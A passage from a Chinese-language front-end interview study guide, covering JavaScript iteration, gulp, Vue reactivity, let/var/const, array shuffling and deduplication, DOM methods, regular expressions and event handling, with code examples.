const app = new PIXI.Application({
  width: 800,
  height: 600,
  backgroundColor: 0x000000,
});

// 将Pixi.js应用程序添加到HTML文档中的某个元素中
document.getElementById('container').appendChild(app.view);
```

4.2 创建并添加精灵对象：

```js
// 创建一个精灵对象
const sprite = PIXI.Sprite.from('image.png');

// 设置精灵对象的位置和缩放
sprite.x = 100;
sprite.y = 100;
sprite.scale.set(0.5);

// 将精灵对象添加到舞台中
app.stage.addChild(sprite);
```

4.3 实现动画效果：

```js
// 创建一个Tween动画对象
const tween = PIXI.tweenManager.createTween(sprite);

// 设置动画的起始位置和结束位置
tween
  .from({
    x: 100,
    y: 100,
  })
  .to({
    x: 500,
    y: 300,
  });

// 设置动画的持续时间和缓动函数
tween.time = 1000;
tween.easing = PIXI.tween.Easing.outCubic;

// 开始动画
tween.start();
```

通过使用 `Pixi.js` 提供的 `TweenManager` 和 `Tween` 类，我们可以轻松地创建和控制动画效果。可以设置动画对象的起始状态、结束状态、持续时间和缓动函数，然后调用 `start()` 方法开始动画。

除了 `Tween` 动画， `Pixi.js` 还提供了许多其他功能，如粒子效果、骨骼动画、滤镜效果等，可以根据具体需求选择合适的方式来实现动画效果。

需要注意的是，使用 `Pixi.js` 来实现动画需要先引入 `Pixi.js` 库，并在 HTML 文档中创建一个容器元素用于显示 `Pixi.js` 应用程序的画布。

```html
<div id="container"></div>
```

然后通过上述示例代码来创建 `Pixi.js` 应用程序，并实现所需的动画效果。

**相比之下，CSS 动画具有以下优点：**

- **性能优化**：浏览器可以对 CSS 动画进行硬件加速，以提高动画的性能和流畅度。
- **简单易用**：使用 CSS 关键帧动画可以通过简单的 CSS 样式声明来定义动画，代码相对简单。
- **兼容性**：CSS 动画在现代浏览器中得到很好的支持，并且在某些情况下可以更好地处理动画效果。

**然而，CSS 动画也有一些限制：**

- **控制能力受限**：CSS 动画通常只能实现简单的线性或简单的缓动效果，对于复杂的动画效果和交互控制，可能需要使用 JavaScript 来实现。
- **兼容性局限**：某些老版本的浏览器可能不支持某些 CSS 动画属性和效果。

因此，根据实际需求和性能考虑，选择合适的动画实现方式是很重要的。在简单的动画效果和性能要求较高时，可以优先考虑使用 CSS 动画；而在复杂的动画控制和交互需求时，使用 JavaScript 来实现动画更为灵活。

### 58 JS 数组和对象的遍历方式，以及几种方式的比较

**数组的遍历方式：**

**1. for 循环：**

- 可以使用普通的 `for` 循环来遍历数组元素。
- 优点：灵活性高，可以根据索引进行操作。
- 缺点：代码相对繁琐，需要手动管理索引。

```js
const array = [1, 2, 3];
for (let i = 0; i < array.length; i++) {
  console.log(array[i]);
}
```

**2. forEach 方法：**

- 使用数组的 `forEach` 方法进行遍历。
- 优点：简洁、易读，无需手动管理索引。
- 缺点：无法使用 `break` 和 `continue` 跳出循环。

```js
const array = [1, 2, 3];
array.forEach((element) => {
  console.log(element);
});
```

**3. for\...of 循环：**

- 使用 `for...of` 循环来遍历数组。
- 优点：语法简洁，无需手动管理索引，可以遍历任何可迭代对象。
- 缺点：无法获取当前元素的索引。

```js
const array = [1, 2, 3];
for (const element of array) {
  console.log(element);
}
```

**4. map 方法：**

- 使用数组的 `map` 方法进行遍历并返回新数组。
- 优点：可以同时遍历和转换数组的元素，返回一个新数组。
- 缺点：不适合仅需要遍历而不需要返回新数组的情况。

```js
const array = [1, 2, 3];
const mappedArray = array.map((element) => element * 2);
console.log(mappedArray);
```

**对象的遍历方式：**

**1. for\...in 循环：**

- `for...in循` 环是用于遍历对象属性的，但也可用于遍历数组。
- 优点：可以遍历数组的索引或属性。
- 缺点：会遍历数组的原型链，不稳定且性能较差，不推荐在数组上使用。

```js
const obj = {
  a: 1,
  b: 2,
  c: 3,
};
for (const key in obj) {
  console.log(key, obj[key]);
}
```

**2. Object.keys 方法结合 forEach 方法：**

```js
const obj = {
  a: 1,
  b: 2,
  c: 3,
};
Object.keys(obj).forEach((key) => {
  console.log(key, obj[key]);
});
```

**3. Object.entries 方法结合 forEach 方法：**

```js
const obj = {
  a: 1,
  b: 2,
  c: 3,
};
Object.entries(obj).forEach(([key, value]) => {
  console.log(key, value);
});
```

**比较总结：**

- `for`循环是最基本的遍历方式，适用于所有情况，但代码较为繁琐。
- `forEach`方法是数组专用的遍历方法，代码简洁，但无法使用`break`和`continue`跳出循环。
- `for...o`f 循环适用于遍历可迭代对象，如数组、字符串等，语法简单，但无法获取索引。
- `map`方法适用于对数组进行映射转换，返回新数组。
- `for...in`循环适用于遍历对象的属性，但会遍历原型链上的属性。
- `Object.keys`方法结合`forEach`方法适用于遍历对象的属性，不遍历原型链。
- `Object.entries`方法结合`forEach`方法适用于遍历对象的键值对。

> 根据不同的需求和数据结构，选择合适的遍历方式可以提高代码的可读性和性能。使用基本的 `for` 循环可以处理各种情况， `forEach` 和 `map` 方法提供了简洁的数组遍历方式， `for...of` 循环适用于遍历可迭代对象， `for...in` 循环和 `Object.keys/Object.entries` 结合 `forEach` 方法适用于遍历对象的属性和键值对。

### 59 gulp 是什么

> gulp 是前端开发过程中一种基于流的代码构建工具，是自动化项目的构建利器；它不仅能对网站资源进行优化，而且在开发过程中很多重复的任务能够使用正确的工具自动完成

- Gulp 的核心概念：流，简单来说就是建立在面向对象基础上的一种抽象的处理数据的工具。在流中，定义了一些处理数据的基本操作，如读取数据，写入数据等，程序员是对流进行所有操作的，而不用关心流的另一头数据的真正流向
- gulp 正是通过流和代码优于配置的策略来尽量简化任务编写的工作
- Gulp 的特点：

  - **易于使用**：通过代码优于配置的策略，gulp
    让简单的任务简单，复杂的任务可管理

  - **构建快速** 利用 `Node.js`
    流的威力，你可以快速构建项目并减少频繁的 `IO` 操作

  - **易于学习** 通过最少的 `API`，掌握 `gulp`
    毫不费力，构建工作尽在掌握：如同一系列流管道

```js
const gulp = require('gulp');
const cleanCSS = require('gulp-clean-css');

// 压缩CSS任务
gulp.task('minify-css', () => {
  return gulp.src('src/css/*.css').pipe(cleanCSS()).pipe(gulp.dest('dist/css'));
});

// 默认任务
gulp.task('default', gulp.series('minify-css'));
```

上述示例定义了一个名为 `minify-css` 的任务，用于压缩 CSS 文件。通过使用 `gulp.src` 选择要处理的文件，然后通过 `cleanCSS` 插件进行压缩操作，最后将压缩后的文件保存到 `dist/css` 目录下。通过 `gulp.task` 定义任务，最后通过 `gulp.series` 定义默认任务，将 `minify-css` 任务作为默认任务执行。

> 总结： `Gulp` 的特点在于其简单的 `API` 和基于流的处理方式。通过使用 `Gulp` ，开发者可以轻松地定义和执行各种任务，提高开发效率。它的易用性、快速构建和易学性使得 `Gulp` 成为前端开发中常用的自动化构建工具之一

### 60 说一下 Vue 的双向绑定数据的原理

> `vue.js`

> 则是采用数据劫持结合发布者-订阅者模式的方式，通过 `Object.defineProperty()` 来劫持各个属性的 `setter` ， `getter` ，在数据变动时发布消息给订阅者，触发相应的监听回调

Vue 的双向绑定数据的原理是基于 `数据劫持和发布者-订阅者模式` 的组合。

**具体步骤如下：**

1.  Vue 通过`Object.defineProperty()`方法对数据对象进行劫持。
2.  在劫持过程中，为每个属性添加了`getter`和`setter`。
3.  当访问属性时，会触发`getter`函数，而当属性值发生变化时，会触发`setter`函数。
4.  在`setter`函数中，Vue 会通知相关的订阅者，即依赖于该属性的视图或其他数据。
5.  订阅者收到通知后，会执行相应的更新操作，将新的数据反映到视图上。

这样，当数据发生变化时，Vue 能够自动更新相关的视图，实现了双向绑定的效果。

这种原理结合了数据劫持和发布者-订阅者模式的特点，实现了数据与视图之间的自动同步。通过数据劫持，Vue 能够捕获数据的变化，而发布者-订阅者模式则确保了数据变化时的及时通知和更新。

示例代码：

```js
// 定义一个数据对象
const data = {
  message: 'Hello Vue!',
};

// 通过Object.defineProperty()劫持数据对象
Object.defineProperty(data, 'message', {
  get() {
    console.log('访问数据');
    return this._message;
  },
  set(newValue) {
    console.log('更新数据');
    this._message = newValue;
    // 通知订阅者，执行更新操作
    notifySubscribers();
  },
});

// 定义一个订阅者列表
const subscribers = [];

// 订阅者订阅数据
function subscribe(callback) {
  subscribers.push(callback);
}

// 通知订阅者，执行更新操作
function notifySubscribers() {
  subscribers.forEach((callback) => {
    callback();
  });
}

// 订阅者更新视图
function updateView() {
  console.log('视图更新：', data.message);
}

// 订阅数据变化
subscribe(updateView);

// 修改数据，触发更新
data.message = 'Hello VueJS!';
```

> 在上述示例中，我们通过 `Object.defineProperty()` 对 `data` 对象的 `message` 属性进行劫持，并在 `getter` 和 `setter` 中添加了相应的日志和更新操作。订阅者通过 `subscribe` 方法订阅数据变化，并在 `updateView` 方法中更新视图。当我们修改 `data.message` 的值时，会触发 `setter` 函数，从而通知订阅者执行更新操作，最终更新了视图。

通过这种方式，Vue 实现了双向绑定的效果，使得数据的变化能够自动反映到视图上。

### 61 let var const 区别

**let**

- 允许你声明一个作用域被限制在块级中的变量、语句或者表达式
- `let`绑定不受变量提升的约束，这意味着`let`声明不会被提升到当前
- 该变量处于从块开始到初始化处理的"暂存死区"

**var**

- 声明变量的作用域限制在其声明位置的上下文中，而非声明变量总是全局的
- 由于变量声明（以及其他声明）总是在任意代码执行之前处理的，所以在代码中的任意位置声明变量总是等效于在代码开头声明

**const**

- 声明创建一个值的只读引用 (即指针)
- 基本数据当值发生改变时，那么其对应的指针也将发生改变，故造成
  `const` 申明基本数据类型时

- 再将其值改变时，将会造成报错， 例如 `const a = 3` ; `a = 5`时
  将会报错

- 但是如果是复合类型时，如果只改变复合类型的其中某个`Value`项时，
  将还是正常使用

示例代码：

**let:**

```js
function example() {
  let x = 10;
  if (true) {
    let x = 20;
    console.log(x); // Output: 20
  }
  console.log(x); // Output: 10
}

example();
```

**var:**

```js
function example() {
  var x = 10;
  if (true) {
    var x = 20;
    console.log(x); // Output: 20
  }
  console.log(x); // Output: 20
}

example();
```

**const:**

```js
function example() {
  const x = 10;
  if (true) {
    const x = 20;
    console.log(x); // Output: 20
  }
  console.log(x); // Output: 10
}

example();
```

在上述示例中，使用 `let` 关键字声明的变量 `x` 具有块级作用域，它的作用范围仅限于 `if` 语句块内部。而使用 `var` 关键字声明的变量 `x` 则具有函数级作用域，它的作用范围在整个函数内部都可见。

对于 `const` 关键字声明的变量 `x` ，它创建了一个只读的引用，也就是说它的值不能被修改。在示例中， `const x = 10` 声明了一个常量 `x` ，而在 `if` 语句块内部再次使用 `const x = 20` 声明了一个新的常量 `x` ，它的作用范围也仅限于 `if` 语句块内部。

**总结：**

- `let`关键字声明的变量具有块级作用域，不会被提升，存在暂存死区。
- `var`关键字声明的变量具有函数级作用域，会被提升到当前作用域的顶部。
- `const`关键字声明的变量创建一个只读的引用，其值不可修改，但对于复合类型的变量，可以修改其属性或元素的值。

### 62 快速的让一个数组乱序

**方法 1：使用数组的 sort 方法结合随机数**

```js
var arr = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10];
arr.sort(function () {
  return Math.random() - 0.5;
});
console.log(arr);
```

**方法 2：使用 Fisher-Yates 算法**

```js
function shuffleArray(array) {
  var currentIndex = array.length,
    temporaryValue,
    randomIndex;

  while (currentIndex !== 0) {
    randomIndex = Math.floor(Math.random() * currentIndex);
    currentIndex -= 1;

    temporaryValue = array[currentIndex];
    array[currentIndex] = array[randomIndex];
    array[randomIndex] = temporaryValue;
  }

  return array;
}

var arr = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10];
console.log(shuffleArray(arr));
```

**方法 3：使用 lodash 库的 shuffle 方法**

```js
import shuffle from 'lodash/shuffle';
var arr = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10];
console.log(shuffle(arr));
```

**对比总结：**

- 方法 1 使用数组的`sort`方法结合随机数，是一种简单快速的方式，但并不是真正意义上的乱序，因为它是通过排序来实现的。
- 方法 2 使用`Fisher-Yates`算法，通过交换数组中的元素来实现乱序，是一种更可靠的乱序方式。
- 方法 3 使用`lodash`库的`shuffle`方法，提供了一个方便的工具函数来实现数组的乱序，不需要自己编写乱序算法。

总体而言，如果只是需要简单的乱序，方法一已经足够。但如果对于乱序的质量和随机性有较高的要求，可以使用方法二的 Fisher-Yates 算法或者借助第三方库来实现。

### 63 如何渲染几万条数据并不卡住界面

**方式 1：使用 requestAnimationFrame**

> 这道题考察了如何在不卡住页面的情况下渲染数据，也就是说不能一次性将几万条都渲染出来，而应该一次渲染部分
> `DOM` ，那么就可以通过 `requestAnimationFrame` 来每 `16 ms` 刷新一次

在渲染大量数据时，避免一次性将所有数据都渲染出来可以提高性能，以保持界面的流畅性。以下是一个示例代码，演示如何使用 `requestAnimationFrame` 来分批渲染大量数据，避免卡住界面：

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>Document</title>
  </head>

  <body>
    <ul>
      控件
    </ul>
    <script>
      setTimeout(() => {
        // 插入十万条数据
        const total = 100000;
        // 一次插入 20 条，可以根据实际性能调整
        const once = 20;
        // 渲染数据总共需要几次
        const loopCount = total / once;
        let countOfRender = 0;
        let ul = document.querySelector('ul');

        function add() {
          // 优化性能，使用文档片段插入，减少回流
          const fragment = document.createDocumentFragment();
          for (let i = 0; i < once; i++) {
            const li = document.createElement('li');
            li.innerText = Math.floor(Math.random() * total);
            fragment.appendChild(li);
          }
          ul.appendChild(fragment);
          countOfRender += 1;
          loop();
        }

        function loop() {
          if (countOfRender < loopCount) {
            // 使用requestAnimationFrame在每一帧中执行渲染
            window.requestAnimationFrame(add);
          }
        }

        loop();
      }, 0);
    </script>
  </body>
</html>
```

上述代码会将十万条数据分批插入到 `ul` 列表中，每次插入 20 条数据，并通过 `requestAnimationFrame` 在每一帧中执行渲染，保证不卡住界面。这样用户可以逐步看到数据的渲染过程，而不是等待所有数据都渲染完毕后才显示。这种方式可以提高用户体验并避免界面卡顿。

**方式 2：使用虚拟滚动**

使用虚拟滚动（Virtual
Scrolling）可以在渲染大量数据时提高性能，只渲染可见区域的数据，而不是将所有数据都插入到 DOM 中。这样可以减少 DOM 操作和内存占用，从而提升性能和响应速度。以下是使用虚拟滚动完成这道题的示例代码：

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>Document</title>
    <style>
      .container {
        height: 400px;
        overflow: auto;
      }

      .item {
        height: 30px;
        line-height: 30px;
        border-bottom: 1px solid #ccc;
      }
    </style>
  </head>

  <body>
    <div class="container">
      <div class="content"></div>
    </div>
    <script>
      setTimeout(() => {
        // 插入十万条数据
        const total = 100000;
        // 可见区域的高度
        const visibleHeight = 400;
        // 单个元素的高度
        const itemHeight = 30;
        // 计算可见区域能容纳的元素数量
        const visibleItemCount = Math.ceil(visibleHeight / itemHeight);
        // 当前滚动位置对应的元素索引
        let startIndex = 0;
        let endIndex = visibleItemCount;
        let container = document.querySelector('.container');
        let content = document.querySelector('.content');

        function renderItems() {
          content.innerHTML = '';
          for (let i = startIndex; i < endIndex; i++) {
            const item = document.createElement('div');
            item.className = 'item';
            item.innerText = Math.floor(Math.random() * total);
            content.appendChild(item);
          }
        }

        function handleScroll() {
          // 计算当前滚动位置对应的元素索引
          startIndex = Math.floor(container.scrollTop / itemHeight);
          endIndex = startIndex + visibleItemCount;
          renderItems();
        }

        // 监听滚动事件
        container.addEventListener('scroll', handleScroll);

        // 初始渲染可见区域的元素
        renderItems();
      }, 0);
    </script>
  </body>
</html>
```

> 在上述代码中，通过设置一个具有固定高度的容器，使用 `overflow: auto` 来实现滚动。通过计算可见区域的高度和单个元素的高度，确定可见区域能容纳的元素数量。然后根据滚动位置计算出当前可见区域的元素索引范围，只渲染这一部分数据，从而实现虚拟滚动。随着滚动事件的触发，动态更新可见区域的元素。这样在大量数据的情况下，只有可见区域的元素会被渲染，大大提高了性能和响应速度。

### 64 希望获取到页面中所有的 checkbox 怎么做？

```js
 var domList = document.getElementsByTagName(‘input’)
 var checkBoxList = [];
 var len = domList.length; //缓存到局部变量
 while (len--) { //使用while的效率会比for循环更高
     if (domList[len].type == ‘checkbox’) {
         checkBoxList.push(domList[len]);
     }
 }
```

- 这段代码使用`document.getElementsByTagName('input')`获取到页面中所有的`input`元素，并通过遍历筛选出`type`为`checkbox`的元素，然后将它们存储在`checkBoxList`数组中
- 请注意，这段代码假设所有的复选框都是通过`<input>`元素实现的，如果你的页面中还有其他方式创建的复选框，可能无法正确获取到。另外，建议将`domList.length`缓存到局部变量中，可以提高代码的性能。

### 65 怎样添加、移除、移动、复制、创建和查找节点

下面是一些用于添加、移除、移动、复制、创建和查找节点的常用方法：

**创建新节点**

```js
document.createElement(tagName); // 创建一个指定标签名的元素节点
document.createTextNode(text); // 创建一个包含指定文本的文本节点
document.createDocumentFragment(); // 创建一个空的文档片段节点
```

**添加、移除、替换、插入节点**

```js
parentNode.appendChild(node); // 在父节点的末尾添加一个子节点
parentNode.removeChild(node); // 从父节点中移除指定的子节点
parentNode.replaceChild(newNode, oldNode); // 用新节点替换指定的旧节点
parentNode.insertBefore(newNode, referenceNode); // 在参考节点之前插入一个新节点
```

**查找节点**

```js
document.getElementsByTagName(tagName); // 返回指定标签名的元素节点集合
document.getElementsByName(name); // 返回具有指定名称的元素节点集合
document.getElementById(id); // 返回具有指定 id 的元素节点
```

注意，以上方法都是基于 `document` 对象进行操作的，如果需要在特定的节点上执行这些操作，可以使用相应节点的方法，例如 `parentNode.appendChild(node)` 。

示例代码：

```js
// 创建新节点
var newElement = document.createElement('div');
var newText = document.createTextNode('Hello, world!');
var fragment = document.createDocumentFragment();

// 添加节点
document.body.appendChild(newElement);
newElement.appendChild(newText);

// 移除节点
document.body.removeChild(newElement);

// 替换节点
var oldElement = document.getElementById('old');
var newElement = document.createElement('div');
document.body.replaceChild(newElement, oldElement);

// 插入节点
var referenceElement = document.getElementById('reference');
var newNode = document.createElement('p');
document.body.insertBefore(newNode, referenceElement);

// 查找节点
var elementsByTagName = document.getElementsByTagName('div');
var elementsByName = document.getElementsByName('name');
var elementById = document.getElementById('id');
```

以上代码演示了如何创建新节点、添加节点、移除节点、替换节点、插入节点以及查找节点的方法。请根据实际情况调整代码并操作相应的节点。

### 66 正则表达式

正则表达式构造函数 `RegExp()` 和正则表达字面量的主要区别在于语法和使用方式。

**正则表达式构造函数 RegExp()**

- 使用字符串作为参数，需要进行双重转义，即需要使用双反斜杠来表示特殊字符，如`\d`表示数字，`\w`表示字母数字下划线等。
- 构造函数的参数可以是一个字符串，也可以是两个字符串，第一个字符串是正则表达式模式，第二个字符串是修饰符。
- 如果正则表达式模式是一个变量，只能使用构造函数的方式创建正则表达式。

**正则表达字面量 `//`**

- 使用两个斜杠`//`将正则表达式包围起来。
- 字面量的方式更简洁，不需要进行双重转义，直接使用特殊字符即可。
- 正则表达式字面量的模式和修饰符直接写在斜杠之间。

在前端面试中，正则表达式是一个常见的考点。以下是一些与正则表达式相关的重要知识点总结：

**1. 基本语法**

- 正则表达式是由字符和特殊字符组成的模式，用于匹配字符串中的文本。
- 常见的特殊字符包括元字符（如`.`、`*`、`+`、`?`等）和字符类（如`[...]`、`[^...]`、`\d`、`\w`等）。

**2. 匹配模式**

- 使用正则表达式可以进行文本匹配、查找、替换等操作。
- 匹配模式可以包括固定文本和通配符，用于定义要匹配的模式。
- 量词（如`*`、`+`、`?`、`{n}`、`{n,m}`等）用于指定匹配的次数。

**3. 常见的正则表达式应用场景**

- 邮箱验证：匹配邮箱的正则表达式可以验证邮箱的合法性。
- 密码验证：通过正则表达式可以验证密码的复杂度要求。
- 手机号验证：使用正则表达式可以验证手机号码的格式是否正确。
- URL 提取：通过正则表达式可以从文本中提取出符合 URL 格式的链接。
- HTML 标签处理：正则表达式可以用于匹配和处理 HTML 标签。
- 字符串替换：使用正则表达式可以进行字符串的替换操作。

**4. 常见的正则表达式方法**

- `test()`：测试字符串是否匹配正则表达式。
- `exec()`：在字符串中查找匹配的文本，并返回匹配结果。
- `match()`：在字符串中查找匹配的文本，并返回所有匹配结果的数组。
- `search()`：在字符串中查找匹配的文本，并返回第一个匹配结果的索引。
- `replace()`：将匹配的文本替换为指定的字符串。
- `split()`：根据正则表达式将字符串拆分为数组。

```js
// 示例字符串
const str = 'Hello, World! This is a test string.';

// test(): 测试字符串是否匹配正则表达式
const regex1 = /test/;
console.log(regex1.test(str)); // true

// exec(): 在字符串中查找匹配的文本，并返回匹配结果
const regex2 = /is/g;
let result;
while ((result = regex2.exec(str)) !== null) {
  console.log(result[0]); // "is" (每次循环匹配的结果)
  console.log(result.index); // 匹配的起始索引
}

// match(): 在字符串中查找匹配的文本，并返回所有匹配结果的数组
const regex3 = /o/g;
console.log(str.match(regex3)); // ["o", "o", "o"]

// search(): 在字符串中查找匹配的文本，并返回第一个匹配结果的索引
const regex4 = /World/;
console.log(str.search(regex4)); // 7

// replace(): 将匹配的文本替换为指定的字符串
const regex5 = /test/;
const newStr = str.replace(regex5, 'replacement');
console.log(newStr); // "Hello, World! This is a replacement string."

// split(): 根据正则表达式将字符串拆分为数组
const regex6 = /[,!\s]/;
const arr = str.split(regex6);
console.log(arr); // ["Hello", "World", "This", "is", "a", "test", "string"]
```

**5. 贪婪匹配和非贪婪匹配**

- 贪婪匹配是指正则表达式默认匹配尽可能长的字符串。
- 非贪婪匹配是指正则表达式匹配尽可能短的字符串，在量词后加上`?`实现非贪婪匹配。

**以下是一些常见的正则表达式面试题考点及其答案总结：**

**1. 什么是正则表达式？**

正则表达式是一种用于匹配和操作字符串的模式，它由字符和特殊字符组成，用于定义匹配规则。

**2. 正则表达式的创建方式有哪些？**

正则表达式可以通过两种方式创建：

- 字面量方式：使用两个斜杠`//`将正则表达式包围起来，如：`/pattern/`。
- 构造函数方式：使用`RegExp()`构造函数创建，接受一个字符串参数，如：`new RegExp("pattern")`。

**3. 常见的正则表达式修饰符有哪些？**

常见的正则表达式修饰符包括：

- `i`：不区分大小写匹配。
- `g`：全局匹配，找到所有匹配项。
- `m`：多行匹配，将 `^` 和 `$` 应用到每一行。

**4. 常用的正则表达式元字符有哪些？**

常用的正则表达式元字符包括：

- `.`：匹配除换行符以外的任意字符。
- `^`：匹配字符串的开始位置。
- `$`：匹配字符串的结束位置。
- `\d`：匹配数字字符。
- `\w`：匹配字母、数字、下划线。
- `\s`：匹配空白字符。

**5. 如何匹配邮箱地址？**

可以使用以下正则表达式进行邮箱地址的匹配：

```js
/^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$/;
```

**6. 如何匹配手机号码？** 可以使用以下正则表达式进行手机号码的匹配：

```js
/^1[3456789]\d{9}$/;
```

**7. 如何匹配 URL 地址？**

可以使用以下正则表达式进行 URL 地址的匹配：

```js
/^(https?:\/\/)?([\da-z.-]+)\.([a-z.]{2,6})(\/[\w.-]*)*\/?$/;
```

**8. 如何提取字符串中的数字部分？**
可以使用以下正则表达式提取字符串中的数字部分：

```js
/\d+/g;
```

**9. 如何验证密码的复杂度要求？**

可以使用以下正则表达式验证密码的复杂度要求，包括至少包含一个大写字母、一个小写字母和一个数字，长度为 8-20 个字符：

```js
/^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)[a-zA-Z\d]{8,20}$/;
```

**10. 如何匹配日期格式（YYYY-MM-DD）？**

可以使用以下正则表达式匹配日期格式（YYYY-MM-DD）：

```js
/^\d{4}-\d{2}-\d{2}$/;
```

**11. 如何匹配 IP 地址？**

可以使用以下正则表达式匹配 IP 地址：

```js
/^((25[0-5]|2[0-4]\d|[01]?\d{1,2})\.){3}(25[0-5]|2[0-4]\d|[01]?\d{1,2})$/;
```

**12. 如何匹配 HTML 标签？**

可以使用以下正则表达式匹配 HTML 标签：

```js
/<[^>]+>/g;
```

**13. 如何移除字符串中的 HTML 标签？**

可以使用以下正则表达式移除字符串中的 HTML 标签：

```js
str.replace(/<[^>]+>/g, '');
```

### 67 Javascript 中 callee 和 caller 的作用？

`callee` 和 `caller` 是两个旧的非标准属性，它们在现代的 JavaScript
中已经不推荐使用，且在严格模式下不可用。

- `caller`属性：`caller`属性用于获取调用当前函数的函数的引用。它返回一个函数对象或者`null`。这个属性主要用于追踪函数的调用来源。但由于其潜在的安全性问题和性能问题，它已经被废弃了，并且在严格模式下无法使用。
- `callee`属性：`callee`属性返回当前正在执行的函数的引用。它通常在匿名函数或递归函数中使用，允许函数引用自身。但同样由于其潜在的安全性和性能问题，它也已经被废弃了，并且在严格模式下无法使用。

应该尽量避免使用 `caller` 和 `callee` 属性，而使用更现代的 JavaScript
特性和技术来完成相应的任务。例如，可以使用具名函数表达式来递归调用函数，使用函数引用作为参数传递来追踪函数调用的来源。

以下是一个示例，

如果一对兔子每月生一对兔子；一对新生兔，从第二个月起就开始生兔子；假定每对兔子都是一雌一雄，试问一对兔子，第 n 个月能繁殖成多少对兔子？（使用 `callee` 完成）

```js
var result = [];

function fn(n) {
  //典型的斐波那契数列
  if (n == 1) {
    return 1;
  } else if (n == 2) {
    return 1;
  } else {
    if (result[n]) {
      return result[n];
    } else {
      //argument.callee()表示fn()
      result[n] = arguments.callee(n - 1) + arguments.callee(n - 2);
      return result[n];
    }
  }
}
```

以下是一个示例，展示了如何使用具名函数表达式进行递归调用：

```js
const factorial = function calculateFactorial(n) {
  if (n <= 1) {
    return 1;
  }
  return n * calculateFactorial(n - 1);
};

console.log(factorial(5)); // 输出: 120
```

在这个示例中，使用具名函数表达式 `calculateFactorial` 来递归调用自身，计算阶乘的结果。这种方式比使用 `callee` 属性更清晰和可维护。

**总结**

- `caller`是返回一个对函数的引用，该函数调用了当前函数；
- `callee`是返回正在被执行的`function`函数，也就是所指定的`function`对象的正文

### 68 window.onload 和\$(document).ready

> 原生 `JS` 的 `window.onload` 与 `Jquery` 的 `$(document).ready(function(){})` 有什么不同？如何用原生 JS 实现 Jq 的 `ready` 方法？

- `window.onload()`方法是必须等到页面内包括图片的所有元素加载完毕后才能执行。
- `$(document).ready()`是`DOM`结构绘制完毕后就执行，不必等到加载完毕

```js
function ready(fn) {
  if (document.addEventListener) {
    //标准浏览器
    document.addEventListener(
      'DOMContentLoaded',
      function () {
        //注销事件, 避免反复触发
        document.removeEventListener(
          'DOMContentLoaded',
          arguments.callee,
          false
        );
        fn(); //执行函数
      },
      false
    );
  } else if (document.attachEvent) {
    //IE
    document.attachEvent('onreadystatechange', function () {
      if (document.readyState == 'complete') {
        document.detachEvent('onreadystatechange', arguments.callee);
        fn(); //函数执行
      }
    });
  }
}
```

### 69 addEventListener()和 attachEvent()的区别

- `addEventListener()`是 DOM Level 2
  标准定义的方法，而 `attachEvent()` 是早期 IE 浏览器的非标准方法。

- `addEventListener()`可以为同一个元素的同一个事件类型添加多个事件处理函数，而`attachEvent()`只能绑定一个事件处理函数。
- `addEventListener()`使用事件捕获阶段或冒泡阶段来处理事件，可以通过第三个参数来指定是在捕获阶段处理还是在冒泡阶段处理。而`attachEvent()`只能在冒泡阶段处理事件。
- `addEventListener()`的事件处理函数中的`this`指向触发事件的元素，而`attachEvent()`的事件处理函数中的`this`指向`window`对象。
- `addEventListener()`中的事件处理函数可以通过`event`参数来获取事件信息，而`attachEvent()`的事件处理函数需要通过`window.event`来获取事件信息。

由于 `attachEvent()` 是早期 IE 浏览器的非标准方法，且在现代浏览器中已经被废弃，推荐使用 `addEventListener()` 来绑定事件。

### 70 获取页面所有的 checkbox

```js
var resultArr = [];
var input = document.querySelectorAll('input');
for (var i = 0; i < input.length; i++) {
  if (input[i].type == 'checkbox') {
    resultArr.push(input[i]);
  }
}
//resultArr即中获取到了页面中的所有checkbox
```

### 71 数组去重方法总结

**方法一、利用 ES6 Set 去重（ES6 中最常用）**

```js
function unique(arr) {
  return Array.from(new Set(arr));
}
var arr = [
  1,
  1,
  'true',
  'true',
  true,
  true,
  15,
  15,
  false,
  false,
  undefined,
  undefined,
  null,
  null,
  NaN,
  NaN,
  'NaN',
  0,
  0,
  'a',
  'a',
  {},
  {},
];
console.log(unique(arr));
//[1, "true", true, 15, false, undefined, null, NaN, "NaN", 0, "a", {}, {}]
```

**方法二、利用 for 嵌套 for，然后 splice 去重（ES5 中最常用）**

```js
function unique(arr) {
  for (var i = 0; i < arr.length; i++) {
    for (var j = i + 1; j < arr.length; j++) {
      if (arr[i] == arr[j]) {
        //第一个等同于第二个，splice方法删除第二个
        arr.splice(j, 1);
        j--;
      }
    }
  }
  return arr;
}
var arr = [
  1,
  1,
  'true',
  'true',
  true,
  true,
  15,
  15,
  false,
  false,
  undefined,
  undefined,
  null,
  null,
  NaN,
  NaN,
  'NaN',
  0,
  0,
  'a',
  'a',
  {},
  {},
];
console.log(unique(arr));
//[1, "true", 15, false, undefined, NaN, NaN, "NaN", "a", {…}, {…}]     //NaN和{}没有去重，两个null直接消失了
```

- 双层循环，外层循环元素，内层循环时比较值。值相同时，则删去这个值。
- 想快速学习更多常用的`ES6`语法

**方法三、利用 indexOf 去重**

```js
function unique(arr) {
  if (!Array.isArray(arr)) {
    console.log('type error!');
    return;
  }
  var array = [];
  for (var i = 0; i < arr.length; i++) {
    if (array.indexOf(arr[i]) === -1) {
      array.push(arr[i]);
    }
  }
  return array;
}
var arr = [
  1,
  1,
  'true',
  'true',
  true,
  true,
  15,
  15,
  false,
  false,
  undefined,
  undefined,
  null,
  null,
  NaN,
  NaN,
  'NaN',
  0,
  0,
  'a',
  'a',
  {},
  {},
];
console.log(unique(arr));
// [1, "true", true, 15, false, undefined, null, NaN, NaN, "NaN", 0, "a", {…}, {…}]  //NaN、{}没有去重
```

> 新建一个空的结果数组， `for`

> 循环原数组，判断结果数组是否存在当前元素，如果有相同的值则跳过，不相同则 `push` 进数组

**方法四、利用 sort()**

```js
function unique(arr) {
